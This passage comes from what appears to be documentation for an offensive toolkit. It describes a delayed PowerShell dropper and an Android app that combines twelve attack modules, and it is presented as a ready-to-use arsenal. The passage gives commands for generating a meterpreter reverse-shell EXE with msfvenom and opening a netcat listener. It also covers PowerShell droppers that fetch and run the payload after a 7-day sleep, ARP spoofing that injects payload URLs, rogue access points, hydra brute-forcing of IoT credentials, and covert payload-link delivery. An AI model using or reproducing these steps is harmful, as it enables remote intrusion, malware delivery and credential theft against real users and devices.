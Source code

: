 ### Tools
- **Kali**: `veil`, `metasploit-framework`, `python3` (http.server).

### Usage
- **Setup**: `sudo apt install veil metasploit-framework`.
- **Run**: `sudo python3 timepunk.py`—enter `LHOST`, delay, move EXE to `/tmp/time.exe`.
- **Deploy**: Copy `.ps1` to target, web server, listener (`nc -lvp 4444`).
- **Output**: Shell session after delay, logs in `timepunk.log`.

---

## 13. CyberPunkDroid: Ultimate Android Red Team Arsenal

### Purpose
Consolidates all 12 tools into a rooted Android app—unmatched Termux power.

### Technical Process
- **UI**: `kivy`—BoxLayout, TextInputs (`LHOST`, `LPORT`, subnet), Buttons—threads per module.
- **Execution**: 
  - **Root**: `tsu -c`—runs commands with sudo.
  - **Threads**: `threading.Thread`—parallel execution, Chaos Mode spawns all.
- **Modules**:
  1. **HackedPunk**: `airmon-ng start wlan0`, `airodump-ng -w hack_dump`, parses CSV, `hostapd-wpe`, `aireplay-ng`.
  2. **RemotePunk**: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port>`—EXE output.
  3. **HoneyPunk**: `hostapd` (open AP), `dnsmasq`, `http.server`—HTML with payload link.
  4. **BluePunk**: `hcitool scan`—lists devices, uses **RemotePunk** EXE.
  5. **DropPunk**: `.ps1`—`IWR`, `Start-Process`—fetches **RemotePunk** EXE.
  6. **PoisonPunk**: `bettercap -caplet arp.spoof`, `http.proxy`—JS injects payload URL.
  7. **FirmPunk**: `nmap -p 23,80`, `hydra`—brutes IoT creds.
  8. **DronePunk**: Runs **HackedPunk**—simulates drone logic.
  9. **SonicPunk**: `wave`—22kHz tones (1s: sin, 0s: silence), `aplay`—encodes URL.
  10. **LightPunk**: `termux-torch`—blinks flashlight (1s: on, 0s: off)—encodes URL.
  11. **ChaosPunk**: **FirmPunk** scaled—multi-device brute.
  12. **TimePunk**: `.ps1`—7-day sleep, fetches **RemotePunk** EXE.

### Tools
- **Android**: Rooted (Magisk), Termux (`pkg install python aircrack-ng hostapd-wpe metasploit-framework bettercap bluez nmap hydra tsu termux-api`).
- **Python**: `kivy`, `opencv-python`.

### Usage
- **Setup**:
  1. Root: Magisk—flash via TWRP (e.g., `magisk-v26.1.zip`).
  2. Termux: F-Droid, `termux-setup-storage`, `pkg update`.
  3. Deps: `pkg install python aircrack-ng hostapd-wpe metasploit-framework bettercap bluez nmap hydra tsu termux-api -y; pip install kivy opencv-python`.
  4. Script: `adb push cyberpunkdroid.py /data/data/com.termux/files/home/`.
- **Run**: `python cyberpunkdroid.py`—GUI prompts inputs, click tools.
- **Output**: `/data/data/com.termux/files/home/output`—logs, EXEs, `.ps1`, `.wav`.

### Technical Notes
- **Power**: Full Kali suite—threads optimize CPU, outstrips Termux tools.
- **Limits**: Root-only, WiFi chip compatibility (e.g., Broadcom may fail), high resource use (~2GB RAM in Chaos Mode).

---
